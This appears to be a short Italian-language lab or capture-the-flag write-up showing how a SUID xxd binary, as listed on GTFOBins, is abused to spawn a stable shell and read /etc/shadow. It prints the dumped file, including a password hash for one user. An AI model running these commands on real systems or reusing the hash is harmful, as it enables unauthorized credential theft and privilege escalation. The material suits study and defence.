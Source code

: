 
https://gtfobins.github.io/
cerchiamo /usr/bin/xxd

Se il binario ha il bit SUID impostato, non perde i privilegi elevati e può essere utilizzato impropriamente per accedere al file system, aumentare o mantenere l'accesso privilegiato come backdoor SUID. Se viene utilizzato per eseguire [nome del file system] `sh -p`, omettere l' `-p`argomento su sistemi come Debian (<= Stretch) che consentono alla `sh`shell predefinita di eseguire con privilegi SUID.
Questo esempio crea una copia locale SUID del binario e la esegue per mantenere privilegi elevati. Per interagire con un binario SUID esistente, saltare il primo comando ed eseguire il programma utilizzando il suo percorso originale
esempio:
```
./xxd "$LFILE" | xxd -r
```
**Stabilizziamo prima la shell**
```
python -c 'import pty; pty.spawn("/bin/bash")'

```
facciamo leggere il file shadow
```
/usr/bin/xxd "/etc/shadow" | xxd -r
```

```
/usr/bin/xxd "/etc/shadow" | xxd -r
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
www-data@ubuntu:/var/www/html$ 
```
